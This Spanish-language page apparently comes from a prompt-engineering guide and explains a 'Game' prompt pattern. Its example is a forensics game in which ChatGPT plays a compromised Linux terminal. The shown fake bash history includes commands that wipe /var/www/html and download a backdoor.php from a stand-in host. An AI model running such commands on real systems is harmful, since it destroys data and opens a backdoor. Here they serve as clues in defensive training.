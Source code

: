 <div align=right>

|[![](https://img.shields.io/badge/-Inicio-FFF?style=flat&logo=Emlakjet&logoColor=black)](/README.md) [![](https://img.shields.io/badge/-Introducción-FFF?style=flat&logo=abbrobotstudio&logoColor=black)](/documentos/intro.md) [![](https://img.shields.io/badge/-Modelos_de_lenguaje-FFF?style=flat&logo=LiveChat&logoColor=black)](/documentos/LLMs.md) [![](https://img.shields.io/badge/-Panorámica-FFF?style=flat&logo=openstreetmap&logoColor=black)](/documentos/panoramica.md)<br>  [![](https://img.shields.io/badge/-Prompts-FFF?style=flat&logo=Proton&logoColor=black)](/documentos/prompts/README.md) [![](https://img.shields.io/badge/-Ing,_de_prompts-FFF?style=flat&logo=googleearthengine&logoColor=black)](/documentos/ingenieriaDePrompts/README.md) [![](https://img.shields.io/badge/-Patrones-FFF?style=flat&logo=textpattern&logoColor=black)](/documentos/ingenieriaDePrompts/patrones/README.md) [![](https://img.shields.io/badge/8vP-FFF?style=flat&logo=v8&logoColor=black)](/documentos/prompts/mejoresPracticas/8virtudesDelPrompting.md) [![](https://img.shields.io/badge/-Casos_de_uso-FFF?style=flat&logo=gitbook&logoColor=black)](/documentos/casosDeUso/README.md)|
|-:|

</div>

# Patrón de Juego

[💬](https://chat.openai.com/share/22b54976-a727-4ef3-88fe-41d0697345b3)

## Intención y Contexto

La intención de este patrón es crear un juego en torno a un tema determinado. El patrón puede combinarse con el Generador de Visualización para añadir imágenes al juego. El juego se centra en un tema específico y el LLM guiará el juego. Este patrón es particularmente efectivo cuando las reglas del juego son relativamente limitadas en alcance, pero se espera que el contenido del juego sea amplio. El usuario puede especificar un conjunto limitado de reglas y luego el LLM puede automatizar la generación de contenidos para el juego.

## Motivación

Te gustaría que el LLM generase escenarios o preguntas en torno a un tema específico y requerir que los usuarios apliquen habilidades de resolución de problemas u otras habilidades para lograr una tarea relacionada con el escenario. Generar todo el contenido para el juego manualmente sería demasiado tedioso, sin embargo, te gustaría que el LLM aplicase su conocimiento sobre el tema para guiar la generación de contenido.

## Estructura e Ideas Clave

Declaraciones contextuales fundamentales:

|Declaraciones Contextuales
|-|
Crea un juego para mí en torno a X
Una o más reglas fundamentales del juego

La primera declaración instruye al LLM a crear un juego y proporciona el enfoque importante del juego a un área temática. Una de las capacidades importantes del patrón es que permite al usuario crear juegos describiendo las reglas del juego, sin tener que determinar el contenido del juego. Cuanto más específico sea el tema, típicamente el juego será más novedoso e interesante.

La segunda declaración presenta las reglas del juego al LLM. Es importante que las reglas se ajusten a las capacidades del LLM. Los juegos textuales que dependen de secuencias de texto de entrada y salida funcionan mejor. Uno de los atributos clave del patrón es que el texto de entrada puede ser rico y expresivo, lo que puede llevar a interfaces interesantes para el juego. Por ejemplo, el usuario podría expresar acciones en el juego como scripts que dictan una secuencia de acciones complejas, como "obtener un listado de toda la actividad de la red y comprobar si hay anomalías", lo que va más allá del alcance de las entradas de opción múltiple o respuesta corta. Cada regla debe proporcionarse como una declaración separada con respecto a algún aspecto del juego.

## Ejemplo de Implementación

A continuación se muestra un ejemplo de un juego sobre ciberseguridad:

> "Vamos a jugar a un juego de ciberseguridad. Vas a pretender ser un terminal Linux de un ordenador que ha sido comprometido por un atacante. Cuando escriba un comando, vas a mostrar el texto correspondiente que el terminal Linux produciría. Voy a usar comandos para intentar descubrir cómo fue comprometido el sistema. El ataque debería haber hecho una o más de las siguientes cosas: (1) lanzado nuevos procesos, (2) cambiado archivos, (3) abierto nuevos puertos para recibir comunicación, (4) creado nuevas conexiones salientes, (5) cambiado contraseñas, (6) creado nuevas cuentas de usuario, o (7) leído y robado información. Para comenzar el juego, imprime un escenario de lo que sucedió que llevó a mi investigación y haz que la descripción tenga pistas que pueda usar para comenzar."

Este juego de ciberseguridad combina varios patrones, incluyendo el de Juego y el de Personalidad. La personalidad del terminal Linux que se elige para el juego [ha sido discutida en muchas publicaciones en Internet](https://www.engraved.blog/building-a-virtual-machine-inside/). Este juego personaliza aún más la personalidad de Linux discutida para actuar como un terminal Linux de un ordenador comprometido por un ciberataque. ChatGPT responde a los comandos de Linux con las salidas del terminal apropiadas y sintetiza un sistema de archivos falso que tiene pistas sobre un ciberataque.

Una muestra de la salida de este juego con ChatGPT después de escribir "ls -alt", el comando de Linux para generar una lista de archivos en el directorio actual se muestra a continuación (los permisos han sido eliminados por razones de formato):

```
total 56
 5 user user  4096 Feb 16 14:31 .
 1 user user 18881 Feb 16 14:31 .bash_history
43 user user  4096 Feb 16 14:30 ..
 1 user user  1178 Aug 15  2022 .bashrc
 1 user user   220 Aug 15  2022 .bash_logout
 3 user user  4096 Feb 16 14:25 .gnupg
 1 user user  4041 Feb 15 17:52 README.md
 2 user user  4096 Feb 1  11:35 project
```

Cuando el usuario luego escribió el comando "cat .bash history", para mostrar el contenido del archivo de registro que muestra los comandos ejecutados por el usuario, ChatGPT respondió con:

```
cd /var/www/html
sudo rm -rf *
sudo wget https://example.com/backdoor.php
sudo chmod 777 backdoor.php
exit
ls -alt
ps -ef
netstat -tulnp
```

En la salida anterior, ChatGPT generó un archivo de registro falso con comandos realistas para eliminar los datos que están siendo servidos por el servidor web en /var/www/html y reemplazar el contenido con una puerta trasera en el sistema.

## Consecuencias

Este patrón se puede combinar eficazmente con los patrones [Persona](persona.md), [Generación Infinita](generacionInfinita.md) y [Generador de Visualización](generadorDeVisualizacion.md). Por ejemplo, el juego de ciberseguridad utiliza el patrón de Persona para que el LLM pueda hacerse pasar por un terminal Linux. Para un juego de seguridad de red, el Generador de Visualización podría emplearse para agregar la capacidad de visualizar la topología de la red y los flujos de tráfico.
